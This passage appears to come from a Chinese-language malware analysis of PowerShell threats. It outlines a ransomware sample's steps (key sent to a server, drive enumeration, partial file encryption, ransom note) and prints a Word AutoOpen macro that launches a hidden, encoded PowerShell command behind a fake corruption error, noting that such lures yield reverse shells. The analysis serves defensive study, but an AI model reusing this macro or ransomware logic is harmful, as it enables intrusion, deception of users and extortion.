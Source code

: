 ![p2](http://drops.javaweb.org/uploads/images/3b19621e20d1d0780312dd691219c3506cabcc77.jpg)

把上面生成随机数发送到服务器中保存

![p3](http://drops.javaweb.org/uploads/images/c56069f62b56c23fa0280a5135c1ab8051ac5f90.jpg)

2.用随机数生成加密容器

![p4](http://drops.javaweb.org/uploads/images/7f3b5c58593211ddeb988c8e6a0430852cace41f.jpg)

![p5](http://drops.javaweb.org/uploads/images/7dac2f8477f8bd02efbdebac6ba8d936ca5527a7.jpg)

3.得到磁盘中的所有的指定后缀的文件

调用`Get-PSDrive`，得到所有文件名

```
$folder= gdr|where {$_.Free}|Sort-Object -Descending 

```

![p6](http://drops.javaweb.org/uploads/images/596ac08027aabe271b198c09fd45e54e9251eb05.jpg)

4.加密这些文件的前2048个字节后写回文件

![p7](http://drops.javaweb.org/uploads/images/7c5625ae4cb14a86200479a5084f13ded2d11c65.jpg)

5.解码Base64得到提示勒索的html文件

![p8](http://drops.javaweb.org/uploads/images/7e3ed44fd5bf08f5f3df58fc136d41888d18f50d.jpg)

在html文件的尾部添加上赎回密钥用的UUID及当前时间

![p9](http://drops.javaweb.org/uploads/images/db233f42946dcb07a7433cbbd32374d9b9ad4a7d.jpg)

### 渗透测试

此类样本大多使用网络上的nishang开源工具包生成的攻击文件。攻击文件以Word、Excel、CHM、LNK等格式的文件为载体，嵌入Payload，实现获得反弹Shell等功能，实现对系统的控制。

样本MD5：929d104ae3f02129bbf9fa3c5cb8f7a1

文件打开后，会显示文件损坏，用来迷惑用户，Word中的宏却悄然运行了。

![p10](http://drops.javaweb.org/uploads/images/51f95a42b5a4d794eb51d2fc1e8b054f6b712033.jpg)

宏的内容为：

```
Sub AutoOpen()
Dim x
x = "powershell -window hidden -enc JAAxACA[……]APQA” _
& "wB3AGUAcgBzAGgAZQBsAGwAIAAkADIAIAAkAGUAIgA7AH0A"
Shell ("POWERSHELL.EXE " & x)
Dim title As String
title = "Critical Microsoft Office Error"
Dim msg As String
Dim intResponse As Integer
msg = "This document appears to be corrupt or missing critical rows in order to restore. Please restore this file from a backup."
intResponse = MsgBox(msg, 16, title)
Application.Quit
End Sub

```
